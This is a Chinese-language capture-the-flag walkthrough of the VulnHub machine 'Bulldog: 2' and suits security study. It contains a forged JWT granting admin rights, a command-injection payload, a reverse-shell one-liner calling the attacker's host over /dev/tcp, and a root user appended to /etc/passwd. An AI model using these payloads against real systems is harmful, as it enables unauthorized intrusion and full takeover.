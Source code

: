 # BULLDOG: 2

2025.02.15 https://www.vulnhub.com/entry/bulldog-2,246/

[video](https://www.bilibili.com/video/BV1qXKLe5Eu1/?vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

只开放了一个 80 web 端口，进行相关浏览，发现一个用户列表的页面 http://192.168.5.40/users 同时发现了一个 json 的请求接口 http://192.168.5.40/users/getUsers?limit= 可以把所有的用户列表获取出来有 1 万多个用户。同时发现一个可以获取用户信息的 json 接口 http://192.168.5.40/users/profile/salaney 最后的值是用户名，将上述 getUsers 接口获得的用户名，进行遍历，但是权限都是 standard_user。

另外发现一个登陆页面： http://192.168.5.40/login 调用的认证接口是:

```
POST /users/authenticate HTTP/1.1
{
  "username": "eitobias",
  "password": "eitobias"
}
```

但是上面发现的用户名太多了，爆破不现实。

在找其他的接口吧，FindSometing 发现了一个注册接口 http://192.168.5.40/users/register 看看注册需要什么字段，查询下 js 源码：

```
prototype.onRegisterSubmit = function() {
var l = this
    , n = {
    name: this.name,
    email: this.email,
    username: this.username,
    password: this.password
};
```

自己构造上面的注册请求：

```
curl -XPOST http://192.168.5.40/users/register -H 'content-type:application/json' -d '{ "name":"test", "email":"test@test.com",  "username":"test", "password":"test"}'

{"success":true,"msg":"User registered"}
```

表示用户注册成功，使用 test:test 用户凭据登陆，登陆后，发现返回的数据：

```
{
  "success": true,
  "token": "JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwYXlsb2FkIjp7Im5hbWUiOiJ0ZXN0IiwiZW1haWwiOiJ0ZXN0QHRlc3QuY29tIiwidXNlcm5hbWUiOiJ0ZXN0IiwiYXV0aF9sZXZlbCI6InN0YW5kYXJkX3VzZXIifSwiaWF0IjoxNzM5NjEyODM4LCJleHAiOjE3NDAyMTc2Mzh9.l3bpZfElVpA_iv83MTeOeyA5sIm28yGsZMBViKHKaCg",
  "user": {
    "name": "test",
    "username": "test",
    "email": "test@test.com",
    "auth_level": "standard_user"
  }
}
```

发现使用了 JWT，并且 auth_level 为普通用户，尝试修改其为管理员权限，在源码中找到了对应的管理员权限的值为 master_admin_user 在浏览器中将本地存储空间中存储的值修改为：

```
{"name":"test","username":"test","email":"test@test.com","auth_level":"master_admin_user"}
```

同时在 https://jwt.io/ 中将 jwt 的值相应字段也进行修改：

```
JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwYXlsb2FkIjp7Im5hbWUiOiJ0ZXN0IiwiZW1haWwiOiJ0ZXN0QHRlc3QuY29tIiwidXNlcm5hbWUiOiJ0ZXN0IiwiYXV0aF9sZXZlbCI6Im1hc3Rlcl9hZG1pbl91c2VyIn0sImlhdCI6MTczOTYxMjgzOCwiZXhwIjoxNzQwMjE3NjM4fQ.XpfhMO48x_txPVCo8lotQame0ONAgr8ujmhilY-GOi0
```

这时在刷新页面右上角出现了 Admin 功能菜单，点击后出现了一个 Link+ Login 的功能页面，里面也要输入用户名和密码，可能存在 sql 注入，加上双引号，看看会出现什么：

```
POST /users/linkauthenticate HTTP/1.1
{
  "username": "11"",
  "password": "11""
}
```

看到报错提示解析 JSON 错误：/var/www/node/Bulldog-2-The-Reckoning/node_modules/raw-body/index.js:273:7，在 github 上找到了 Bulldog-2-The-Reckoning 的源码，这里发现可以命令执行 https://github.com/Frichetten/Bulldog-2-The-Reckoning/blob/master/routes/users.js 78 行:

```
router.post('/linkauthenticate', (req, res, next) => {
  const username = req.body.password;
  const password = req.body.password;

  exec(`linkplus -u ${username} -p ${password}`, (error, stdout, stderr) => {
```

需要构造特殊的 username 和 password 先进行个测试看看能不能访问到 kali：

```
curl -XPOST http://192.168.5.40/users/linkauthenticate -H 'content-type:application/json' -d '{"username":"test", "password":"$(wget http://192.168.5.3)"}'
```

在 kali 的 python web 服务上可以看到目标机器的访问：

```
192.168.5.40 - - [15/Feb/2025 18:12:20] "GET / HTTP/1.1" 200 -
192.168.5.40 - - [15/Feb/2025 18:12:20] "GET / HTTP/1.1" 200 -
```

这时就能执行反弹了：

```
curl -XPOST http://192.168.5.40/users/linkauthenticate -H 'content-type:application/json' -d '{"username":"test", "password":"`/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1\"`"}'
```

kali 监听 8888 端口，得到了反弹的连接：

```
node@bulldog2:/var/www/node/Bulldog-2-The-Reckoning$ id
id
uid=1001(node) gid=1005(node) groups=1005(node)
```

进行信息枚举，直接发现 /etc/passwd 可以全局写，所以直接添加一个超级权限级别用户：

```
openssl passwd -1 -salt new 123

echo 'admin1:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

su 切换到 admin1 用户，直接得到了 root 权限：

```
root@bulldog2:~# cat flag.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

I'm already working on another more challenging VM. Follow me for updates.
```
